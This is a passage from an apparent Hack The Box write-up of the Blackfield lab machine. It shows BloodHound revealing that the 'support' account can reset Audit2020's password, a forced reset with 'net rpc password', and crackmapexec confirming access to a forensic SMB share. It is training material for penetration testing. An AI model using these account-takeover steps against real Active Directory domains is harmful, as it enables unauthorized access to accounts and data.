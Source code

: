 ```
-rw-r--r-- 1 snowscan snowscan   2973 Aug 31 19:53 computers.json
-rw-r--r-- 1 snowscan snowscan   2765 Aug 31 19:53 domains.json
-rw-r--r-- 1 snowscan snowscan  80718 Aug 31 19:53 groups.json
-rw-r--r-- 1 snowscan snowscan 665454 Aug 31 19:53 users.json
```

To load the data in Bloodhound, we first need to start the neo4j database with `sudo neo4j console`. When you first set it up, you'll need to connect to port 7474 with your browser and change the default password. Once the database is setup we'll launch Bloodhound and connect with the credentials, then click **Upload Data** and upload all the JSON files. Once this is done we should see the database populated like the following:

![image-20200831195657024](/assets/images/htb-writeup-blackfield/image-20200831195657024.png)

Bloodhound comes with a bunch of pre-defined queries that can help spot easy attack paths. Here, we'll do a search for the **support** user then click on it to reveal the properties.

![image-20200831195835373](/assets/images/htb-writeup-blackfield/image-20200831195835373.png)

If we scroll down and select **Outbound Object Control** we can see that the **Support** user has the privileges to change the password for the **Audit2020** user. This will allow us to take over the Audit2020 account.

![image-20200831200012084](/assets/images/htb-writeup-blackfield/image-20200831200012084.png)

## Password reset for user Audit2020

We'll use the `net` program to force the password change of the **Audit2020** user. The first password entered is the new password for audit2020, here we'll use `Password123`. The second password prompt is the password for the **Support** user.

```
snowscan@kali:~/htb/blackfield_demo$ net rpc password audit2020 -U support -S 10.10.10.192
Enter new password for audit2020:
Enter WORKGROUP\support's password:
```

Using crackmapexec, we can see that the new password works and that now have access to the **forensic** SMB share:

```
snowscan@kali:~/htb/blackfield_demo$ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123 --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:Password123 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```
